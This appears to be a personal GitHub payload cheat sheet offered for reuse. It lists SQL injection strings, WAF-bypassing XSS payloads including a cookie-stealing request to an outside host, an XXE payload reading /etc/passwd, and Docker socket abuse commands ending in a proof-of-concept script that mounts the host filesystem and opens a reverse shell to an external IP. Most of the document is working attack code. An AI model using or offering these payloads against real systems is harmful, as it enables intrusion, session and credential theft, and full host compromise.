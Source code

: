 ## Just a useless set of payload used by me. Saved here for remembrance.

### SQL Injection
#### Time Based Blind:
 - `(select(if(user()like(user()),sleep(4),sleep(2))))` (Timed Based Blind)
 - `x'.and.(select.count(*).from.shouldNotExistTable)=1.or.'1'='0.` (this is for error based sqli and should return error like : "Table 'x.shouldNotExistTable' doesn't exist")
 - `x' AND (SELECT 4321 FROM (SELECT(SLEEP(2-(IF(20=20,0,5)))))x)-- asd` (Timed Based Blind)
 - `x' AND (SELECT 2312 FROM (SELECT(SLEEP(2)))asd)-- dsa` (Timed Based Blind)

### Cross Site Scripting
 - `[document.domain].find(confirm)` (helped me to bypass WAFs/filters or useful if input is echoed or used as variable in js files)
 - `['h0nus'].find(window[String.fromCharCode(97,108,101,114,116)])` (pops an alert with h0nus string :) useful for waf bypasses or evade checks)
 - `('asd').link(eval("var asd=new Function('return prompt(\"h0nus\")'); asd();"))` (pops a prompt with h0nus string )
 - `('asd').anchor(prompt());` (just pops a prompt) 
 - `var url="https://any.host.name/",params="asd="+document.cookie,http=new XMLHttpRequest;http.open("GET",url+"?"+params,!0),http.send(null);` To steal cookies

### XML External Entity
```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "https://docs.oracle.com/cd/E13153_01/wlcp/wlss40/sip-app_1_0.dtd.txt">
<!ENTITY % condition 'aaa)>
<!ENTITY &#x25; file SYSTEM "/etc/passwd">
<!ENTITY &#x25; eval "
<!ENTITY &#x26;#x25; error SYSTEM &#x27;http://&#x25;file;:asd@localhost:22&#x27;>">
&#x25;eval;
&#x25;error;
<!ELEMENT aa (bb'>
%local_dtd;
]>
``` (Used when i had no space left for internal entities into payload/dtd) 
 -  `<![CDATA[ <script>prompt(2)</script> ]]>` (Sometimes WAFS block by keywords like DOCTYPE, ENTITY & ect, but you can inject into `<![CDATA[X]]>` )

### PWN scripts/tips
* Docker:
  * Get all containers or images:
    * `curl -i -s --unix-socket /var/run/docker.sock -X GET http://localhost/containers/json`

  * Create a new container
    * `curl -i -s --unix-socket /var/run/docker.sock -X POST \
    -H "Content-Type: application/json" \
    --data-binary '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["bash", "/etc/passwd"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}' \
    http://localhost/containers/container_id/exec`

  * Start the newer container with the command
    * `curl -i -s --unix-socket /var/run/docker.sock -X POST \
    -H 'Content-Type: application/json' \
    --data-binary '{"Detach": false,"Tty": false}' \
    http://localhost/exec/exec_id/start`
    
  * Final PoC:
    * `#!/bin/bash
    pay="bash -c 'bash -i >& /dev/tcp/10.10.14.194/7777 0>&1'"
    payload="[\"/bin/sh\",\"-c\",\"chroot /mnt sh -c \\\"$pay\\\"\"]"
    response=$(curl -s -XPOST --unix-socket /var/run/docker.sock -d "{\"Image\":\"sandbox\",\"cmd\":$payload, \"Binds\": [\"/:/mnt:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create)
    revShellContainerID=$(echo "$response" | cut -d'"' -f4)
    curl -s -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/$revShellContainerID/start
    sleep 1
    curl --output - -s --unix-socket /var/run/docker.sock "http://localhost/containers/$revShellContainerID/logs?stderr=1&stdout=1"`

